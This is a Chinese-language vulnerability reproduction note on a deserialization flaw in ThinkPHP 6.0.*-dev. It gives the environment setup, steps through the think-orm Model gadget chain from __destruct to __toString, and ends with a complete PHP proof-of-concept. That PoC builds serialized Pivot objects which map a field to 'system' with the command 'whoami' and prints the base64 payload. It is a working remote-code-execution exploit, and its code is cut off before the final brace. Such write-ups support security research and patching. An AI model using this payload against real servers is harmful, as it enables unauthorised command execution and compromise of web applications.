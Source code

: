 Thinkphp 6.0.\*-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=6.0.*-dev v6.0

### poc演示截图

![](./.resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId27.png)

### 调用链

![](./.resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId29.png)

### 单步调试

    //vendor\topthink\think-orm\src\Model.php
    public function __destruct()
    {
        if ($this->lazySave) {  //$this->lazySave可控
            $this->save();
        }
    }
    //vendor\topthink\think-orm\src\Model.php
    public function save(array $data = [], string $sequence = null): bool
    {
        // 数据对象赋值
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
           return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence); //this->exists可控

        if (false === $result) {
           return false;
        }
    //vendor\topthink\think-orm\src\Model.php
    public function isEmpty(): bool
    {
        return empty($this->data);    //可控
    }
    protected function trigger(string $event): bool
    {
        if (!$this->withEvent) {       //可控
            return true;
        }
        ...
    }
    protected function updateData(): bool
    {
        // 事件回调
        if (false === $this->trigger('BeforeUpdate')) {   //可控
           return false;
        }

        $this->checkData();

        // 获取有更新的数据
        $data = $this->getChangedData();  

        if (empty($data)) {         //$data可控
           // 关联更新
           if (!empty($this->relationWrite)) {
             $this->autoRelationUpdate();
           }

           return true;
        }

        if ($this->autoWriteTimestamp && $this->updateTime && !isset($data[$this->updateTime])) {
           // 自动写入更新时间
           $data[$this->updateTime]       = $this->autoWriteTimestamp($this->updateTime);
           $this->data[$this->updateTime] = $data[$this->updateTime];
        }

        // 检查允许字段
        $allowFields = $this->checkAllowFields();
    public function getChangedData(): array
    {
        $data = $this->force ? $this->data : array_udiff_assoc($this->data, $this->origin, function ($a, $b) {
           if ((empty($a) || empty($b)) && $a !== $b) {
             return 1;
           }
        //$this->force可控
           return is_object($a) || $a != $b ? 1 : 0;
        });

        // 只读字段不允许更新
        foreach ($this->readonly as $key => $field) {
           if (isset($data[$field])) {
             unset($data[$field]);
           }
        }

        return $data;
    }
    protected function checkAllowFields(): array
    {
        // 检测字段
        if (empty($this->field)) {   //$this->field可控
           if (!empty($this->schema)) {  //$this->schema可控
             $this->field = array_keys(array_merge($this->schema, $this->jsonType));
           } else {
             $query = $this->db();
             $table = $this->table ? $this->table . $this->suffix : $query->getTable();
    public function db($scope = []): Query
    {
        /** @var Query $query */
        $query = self::$db->connect($this->connection)   //$this->connection可控
           ->name($this->name . $this->suffix)   //$this->suffix可控，采用拼接，调用_toString
           ->pk($this->pk);

后面的链跟之前的一样，这里就不分析了

![](./.resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId31.png)

### poc v6.0.\*-dev

    <?php
    /**
     * Created by PhpStorm.
     * User: wh1t3P1g
     */

    namespace think\model\concern {
        trait Conversion{
            protected $visible;
        }
        trait RelationShip{
            private $relation;
        }
        trait Attribute{
            private $withAttr;
            private $data;
            protected $type;
        }
        trait ModelEvent{
            protected $withEvent;
        }
    }

    namespace think {
        abstract class Model{
            use model\concern\RelationShip;
            use model\concern\Conversion;
            use model\concern\Attribute;
            use model\concern\ModelEvent;
            private $lazySave;
            private $exists;
            private $force;
            protected $connection;
            protected $suffix;
            function __construct($obj)
            {
                if($obj == null){
                    $this->data = array("wh1t3p1g"=>"whoami");
                    $this->relation = array("wh1t3p1g"=>[]);
                    $this->visible= array("wh1t3p1g"=>[]);
                    $this->withAttr = array("wh1t3p1g"=>"system");
                }else{
                    $this->lazySave = true;
                    $this->withEvent = false;
                    $this->exists = true;
                    $this->force = true;
                    $this->data = array("wh1t3p1g"=>[]);
                    $this->connection = "mysql";
                    $this->suffix = $obj;
                }
            }
        }
    }


    namespace think\model {
        class Pivot extends \think\Model{
            function __construct($obj)
            {
                parent::__construct($obj);
            }
        }
    }


    namespace {
        $pivot1 = new \think\model\Pivot(null);
        $pivot2 = new \think\model\Pivot($pivot1);
        echo base64_encode(serialize($pivot2));
